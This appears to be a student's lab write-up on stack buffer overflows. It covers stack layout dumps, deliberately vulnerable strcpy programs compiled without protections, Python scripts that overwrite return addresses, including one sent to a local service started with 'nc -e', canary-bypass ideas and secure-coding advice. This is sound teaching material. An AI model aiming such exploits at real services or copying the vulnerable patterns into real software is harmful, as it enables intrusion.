



# Buffer Overflow Activity

## Exercise 1: Stack Layout Analysis

### Objective

Understanding stack layout by examining memory addresses and stack structure in a 64-bit Linux environment.

### Code Implementation

```c
#include <stdio.h>

/* Prototype function */
void myfunction (int i);

char *p;

int main() {
    printf("&main = %0.16p\n", & main);
    printf("&myfunction = %0.16p\n", &myfunction);
    printf("&&ret_addr = %0.16p\n", &&ret_addr);
    myfunction (12);
ret_addr:
    printf("... end\n");
}

void myfunction (int i) {
    char buf[20]="0123456789012345678";
    printf("&i = %0.16p\n", &i);
    printf("sizeof(pointer) is %d\n",sizeof(p));
    printf("&buf[0] = %0.16p\n", buf);
    for(p=((char *) &i)+64;p>buf;p--) {
        printf("%0.16p: 0x%0.2x\t", p, *(unsigned char*) p);
        if (! ((unsigned int )p %4) )
            printf("\n");
    }
    printf("\n");
}
```

### Output



#### Buffer

```
0x244fd6f: 0x00
0x244fd6e: 0x38
0x244fd6d: 0x37
...
0x244fd65: 0x39
0x244fd64: 0x38
...
0x244fd5d: 0x31

```

#### RBP

```
0x244fd70: 0x84
0x244fd71: 0xfd
0x244fd72: 0x44
0x244fd73: 0x02
0x244fd74: 0xa0
0x244fd75: 0xfd
0x244fd76: 0x44
0x244fd77: 0x02
```

#### Return Address

```
0x244fd78: 0x88
0x244fd79: 0xfd
0x244fd7a: 0x44
0x244fd7b: 0x02
0x244fd7c: 0x88
0x244fd7d: 0xfd
0x244fd7e: 0x44
0x244fd7f: 0x02

0x244fd80: 0xc9
0x244fd81: 0x10
0x244fd82: 0x40
0x244fd83: 0x00
0x244fd84: 0x0c
```

### Stack Layout Diagram

```
Higher Memory Addresses
┌─────────────────────────────┐
│  Previous Stack Frame       │
├─────────────────────────────┤
│  Return Address (ret_addr)  │  ← Points to instruction after myfunction call
├─────────────────────────────┤
│  Saved Frame Pointer (RBP)  │
├─────────────────────────────┤
│  Local Variable: buf[20]    │  ← Buffer starts here
│  "0123456789012345678"      │
├─────────────────────────────┤
│  Function Argument: i (12)  │
└─────────────────────────────┘
Lower Memory Addresses
```

### Analysis

**Key Observations:**
**Stack Structure Identification:**

- **Buffer (`buf`)**: Located at the lowest address in the function's stack frame
- **Saved Frame Pointer**: Typically 8 bytes (64-bit architecture)
- **Return Address**: Located above the saved frame pointer, points back to `main`
- **Function Argument (`i`)**: Located in the calling convention area

---

## Exercise 2: Stack Smashing Attack

### Objective

Demonstrate a basic buffer overflow attack by overwriting the return address to redirect program flow.

### Vulnerable Program Code

```c
#include <string.h>
#include <stdio.h>

void greeting() {
    printf("Welcome to exercise II\n");
    printf("I hope you enjoy it\n\n");
}

void mem_dump(char *from,char *to) {
    char *p;
    for(p=(from+64);p>=to;p--) {
        printf("%p: 0x%02x\t", p, *(unsigned char*) p);
        if (! ((unsigned long )p %2) )
            printf("\n");
    }
    printf("\n");
}

void concat_arguments(int argc, char**argv) {
    char buf[20]="0123456789012345678";
    char *p = buf;
    int i;
    printf("&i = %p\n", &i);
    printf("&buf[0] = %p\n", buf);

    p=buf;
    for(i=1;i<argc;i++) {
        strcpy(p, argv[i]);
        p+=strlen(argv[i]);
        if(i+1 != argc) {
            *p++ = ' ';
        }
    }
    printf("%s\n", buf);
}

int main(int argc, char **argv) {
    printf("&main = %p\n", & main);
    printf("&myfunction = %p\n", &concat_arguments);
    printf("&greeting = %p\n", &greeting);
    greeting();
    concat_arguments(argc, argv);
}
```

### Compilation Command

```bash
gcc -o ex2 -fno-stack-protector -no-pie ex2.c
```

### Finding Target Address

```bash
objdump -d ex2 | grep greeting
```

### Exploit Code (Python Wrapper)

```python
#!/usr/bin/python3
# wrapper.py

import os

# Create buffer overflow payload
buff = 20 * (b'x')  # Fill buffer

# Target address of greeting() function
# Replace with actual address from objdump
addr = bytearray.fromhex("400646")  # Example address
addr.reverse()  # Convert to little-endian
buff += addr

print("exec ./ex2 with buff", buff)
os.execv('./ex2', ['./ex2', buff])
```

### Output



### Analysis

The attack successfully overwrites the return address on the stack, causing the program to jump back to the `greeting()` function instead of returning normally to `main()`.

---

## Exercise 3: Network Service Exploitation

### Objective

Exploit a buffer overflow vulnerability in a network service to execute a shell function.

### Victim Program Analysis

**Key Functions:**

- `shell()`: Target function to execute
- `vulnerable()`: Contains the vulnerable `strcpy()` call
- `main()`: Provides helpful debugging information

### Finding the Shell Address

```bash
./victim-2020
```

### Network Service Setup

```bash
nc -l -p 60000 -e ./victim-2020
```

### Exploit Code

```python
#!/usr/bin/python3
# attack.py

import telnetlib

# Open connection to victim service
tn = telnetlib.Telnet("127.0.0.1", 60000)

# Configuration
offset = int(input("Offset (40?): "))
target_addr = input("Target (shell) address (e.g., 5647740e61b5): ")

# Create payload
buff = offset * (b'x')
addr = bytearray.fromhex(target_addr)
addr.reverse()  # Little-endian conversion
buff += addr

# Send payload
tn.write(buff)
tn.write(b'\n')

# Interactive session
tn.interact()
```

### Attack Execution Steps

1. **Start the victim service:**

   ```bash
   nc -l -p 60000 -e ./victim-2020
   ```

2. **Run the exploit:**

   ```bash
   python3 attack.py
   ```

3. **Enter the offset and shell address from the debug output**

### Output



---

## Exercise 4: Bonus - Bypassing Canary Protection

### Analysis

**Canary Protection Mechanism:**

- A random value (canary) is placed between the buffer and return address
- Before function returns, the canary value is checked
- If modified, the program terminates with a stack smashing detection error

**Potential Bypass Techniques:**

1. **Information Leakage**

   - If the program leaks stack memory, the canary value might be readable
   - Use format string vulnerabilities to read the canary

2. **Brute Force (32-bit systems)**

   - On 32-bit systems, canaries may be only 4 bytes
   - Possible to brute force if the service restarts with the same canary

3. **Partial Overwrite**

   - Overwrite only the least significant bytes of the return address
   - Keep the canary intact

4. **Fork-Based Attacks**
   - If the service uses `fork()`, child processes inherit the same canary
   - Can attempt multiple attacks without changing the canary

---

## Exercise 5: Security Analysis and Best Practices

### Question 1: Triviality of Buffer Overflow Exploits

**Answer:**

Buffer overflow exploitation is **NOT trivial** for several reasons:

1. **System Variations**

   - Different OS versions have different memory layouts
   - Address Space Layout Randomization (ASLR) randomizes addresses
   - Stack protection mechanisms (canaries, DEP/NX)

2. **Architecture Complexity**

   - 64-bit vs 32-bit architectures have different calling conventions
   - Endianness considerations
   - Alignment requirements

3. **Modern Protections**

   - Stack canaries
   - Non-executable stack (DEP/NX bit)
   - Address Space Layout Randomization (ASLR)
   - Control Flow Integrity (CFI)
   - Stack Clash protection

4. **Exploitation Requirements**
   - Need to find exact offset to return address
   - Must know or predict target addresses
   - Payload constraints (null bytes, character restrictions)
   - Shellcode development complexity

**Real-World Scenario:**
Exploiting a server requires:

- Reverse engineering the binary
- Bypassing multiple security layers
- Dealing with ASLR and other randomization
- Creating reliable exploits that work across reboots
- Handling network protocol constraints

### Question 2: Writing Secure Code - Prevention Strategies

**Answer:**

Yes, it is possible to avoid buffer overflow vulnerabilities by following secure coding practices:

#### 1. **Use Safe Functions**

```c
// UNSAFE
char buf[10];
strcpy(buf, user_input);  // Dangerous!
gets(buf);                 // Never use!

// SAFE
char buf[10];
strncpy(buf, user_input, sizeof(buf) - 1);
buf[sizeof(buf) - 1] = '\0';
fgets(buf, sizeof(buf), stdin);
```

#### 2. **Bounds Checking**

```c
// Always validate input length
if (strlen(user_input) < sizeof(buffer)) {
    strcpy(buffer, user_input);
} else {
    // Handle error
    fprintf(stderr, "Input too long\n");
    return -1;
}
```

#### 3. **Use Modern Language Features**

```c
// C11 bounds-checking interfaces
strcpy_s(dest, sizeof(dest), src);
strncpy_s(dest, sizeof(dest), src, count);
```

#### 4. **Dynamic Memory Allocation**

```c
// Allocate exact size needed
char *buffer = malloc(strlen(input) + 1);
if (buffer) {
    strcpy(buffer, input);
    // ... use buffer ...
    free(buffer);
}
```

#### 5. **Compiler Protections**

```bash
# Enable all security features
gcc -fstack-protector-strong \
    -D_FORTIFY_SOURCE=2 \
    -Wformat -Wformat-security \
    -fPIE -pie \
    -o secure_program program.c
```

#### 6. **Input Validation**

```c
// Validate all input
int read_safe_input(char *buf, size_t max_len) {
    if (fgets(buf, max_len, stdin) == NULL) {
        return -1;
    }

    // Remove newline
    size_t len = strlen(buf);
    if (len > 0 && buf[len-1] == '\n') {
        buf[len-1] = '\0';
    }

    // Validate content
    if (len >= max_len - 1) {
        fprintf(stderr, "Input truncated\n");
        return -1;
    }

    return 0;
}
```

#### 7. **Use Safe String Libraries**

```c
// Use libraries like SafeStr or C++ std::string
#include <string>
std::string safe_concat(const std::string& a, const std::string& b) {
    return a + b;  // No buffer overflow possible
}
```

#### 8. **Code Review and Static Analysis**

- Use static analysis tools (Coverity, Clang Static Analyzer)
- Regular code reviews focusing on security
- Automated testing with fuzzing tools

#### 9. **Defense in Depth**

- Enable ASLR at OS level
- Use DEP/NX (non-executable stack)
- Implement least privilege principle
- Regular security updates

### Summary Table: Safe vs Unsafe Functions

| Unsafe        | Safe Alternative         | Notes                         |
| ------------- | ------------------------ | ----------------------------- |
| `strcpy()`    | `strncpy()`, `strlcpy()` | Always specify maximum length |
| `strcat()`    | `strncat()`, `strlcat()` | Check remaining buffer size   |
| `gets()`      | `fgets()`                | Never use `gets()`            |
| `sprintf()`   | `snprintf()`             | Specify buffer size           |
| `scanf("%s")` | `scanf("%20s")`          | Limit input width             |

---
